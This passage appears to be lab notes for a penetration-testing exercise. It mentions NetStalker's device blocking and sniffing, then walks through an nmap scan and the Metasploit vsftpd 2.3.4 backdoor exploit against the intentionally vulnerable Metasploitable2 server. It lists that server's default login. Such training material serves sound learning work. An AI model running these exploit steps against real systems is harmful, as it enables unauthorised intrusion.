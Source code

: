 Block will actually stop the IP from being able to use the internet and will put the device status into offline.

NetStalker also has a sniffing feature that you can use by first selecting the device in the menu.

---

**System Hacking**

All of this part is done using the intentionally vulnerable server metasploitable2.
Login credentials: msfadmin

To access the various things that the server has you can get the IP of the server and then enter it into a browser on Kali Linux.

Verify the server can be contacted on the Kali VM by utilising ping. This will verify that they are on the same netwrok.

Scanning the server with nmap to check for open ports and vulnerabilities:
```sh
nmap -T4 -A -v <target-ip>
```

**FTP**

The FTP has anonymous logging and appears to be an out of date version. After googling the version we find that metasploit has a module that installs a backdoor on the system via the out of date FTP version. 

Start metasploit
```sh
msfconsole
```

Set up the exploit
```sh
use exploit/unix/ftp/vsftpd_234_backdoor
```

Show targets
```sh
show targets
```

Set target
```sh
set TARGET <target-id>
```

Options
```sh
show options
```
- set the options as required

Set IP of target
```sh
set RHOSTS <target-ip>
```

Run exploit
```sh 
exploit
```

